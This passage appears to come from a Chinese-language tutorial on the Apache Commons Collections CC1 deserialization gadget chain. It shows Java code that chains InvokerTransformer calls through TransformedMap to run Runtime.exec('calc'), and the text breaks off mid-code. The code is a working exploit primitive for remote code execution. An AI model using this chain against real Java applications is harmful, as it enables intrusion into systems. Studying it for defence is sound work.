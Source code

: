 ```java

        InvokerTransformer it1 = new InvokerTransformer(
            "getMethod",
            new Class[]{String.class, Class[].class},
            new Object[]{"getRuntime", new Class[0]}
        );
        InvokerTransformer it2 = new InvokerTransformer(
            "invoke",
            new Class[]{Object.class, Object[].class},
            new Object[]{null, new Object[0]}
        );
        InvokerTransformer it3 = new InvokerTransformer(
            "exec",
            new Class[]{String.class},
            new Object[]{"calc"}
        );
        Transformer[] transformers = new Transformer[]{ct, it1, it2, it3};
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        Map map=new HashMap();
        map.put("key","value");
        Map transformermap = TransformedMap.decorate(map,null,chainedTransformer);
        transformermap.put("1","1");
    }
}

```

这个map不能为空，否则会报错

初始化`super`父类

```java
public AbstractMapDecorator(Map map) {
        if (map == null) {
            throw new IllegalArgumentException("Map must not be null");
        } else {
            this.map = map;
        }
    }
```

### ChainedTransformer+entrySet+父类setValue触发命令执行

```java
package payload.cc1;
import java.util.Map;
import java.util.HashMap;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class payload3 {
    public static void main(String[] args) {
        ConstantTransformer ct = new ConstantTransformer(Runtime.class);
        InvokerTransformer it1 = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]});
        InvokerTransformer it2 = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});
        InvokerTransformer it3 = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        Transformer[] transformers = new Transformer[]{ct, it1, it2, it3};
        Transformer chainedTransformer = new ChainedTransformer(transformers);

```